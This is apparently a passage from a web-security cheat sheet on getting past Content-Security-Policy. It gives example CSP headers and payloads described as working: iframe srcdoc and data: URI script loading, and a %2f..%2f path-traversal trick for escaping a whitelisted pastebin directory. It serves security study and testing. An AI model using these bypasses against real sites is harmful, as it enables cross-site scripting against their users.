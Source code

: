 ## Allowed data: scheme

```http
Content-Security-Policy: default-src 'self' data: *; connect-src 'self'; script-src  'self';
```

Like this CSP policy can be bypassed using `<iframe>`. The condition is that application should allow `<iframe>` from the whitelisted domain. Now using a special attribute `srcdoc` of `<iframe>`, XSS can be easily achieved, working payload:

```html
<iframe srcdoc='<script src="data:text/javascript,alert(document.domain)"></script>'></iframe>
```

Sometimes it can be achieved using defer & async attributes of script within `<iframe>` (most of the time in new browser due to SOP it fails)

```html
<iframe src='data:text/html,<script defer="true" src="data:text/javascript,document.body.innerText=/hello/"></script>'></iframe>
```

## Bypass using encode '/' by [@SecurityMB](https://twitter.com/SecurityMB/status/1162690916722839552)

```http
Content-Security-Policy: script-src pastebin.com/XYZ/
```

If CSP policy points to a dir and you use `%2f` to encode `'/'`, it is still considered to be inside the dir. All browsers seem to agree on that. This leads to a possible bypass, by using `'%2f..%2f'` if server decodes it, working payload:

```html
<script src="https://pastebin.com/XYZ%2f..%2fraw/b0Rajxqk"></script>
```

# References

- [Content-Security-Policy (CSP) Bypass Techniques](https://medium.com/@bhaveshthakur2015/content-security-policy-csp-bypass-techniques-e3fa475bfe5d)
- [Content Security Policy Bypass (Deteact)](https://blog.deteact.com/csp-bypass/)
- [ZN2018 - CSP Bypass](https://github.com/0xn3va/cheat-sheets/blob/master/Web%20Application/Content%20Security%20Policy/materials/zn2018-csp-bypass.pdf)
- [Write up: CSP bypass by base tag injection](https://ctftime.org/writeup/11452)
- [Write up: CSP Injection - CTFZone 2019 Quals - Shop Task](https://blog.blackfan.ru/2019/12/ctfzone-2019-shop.html)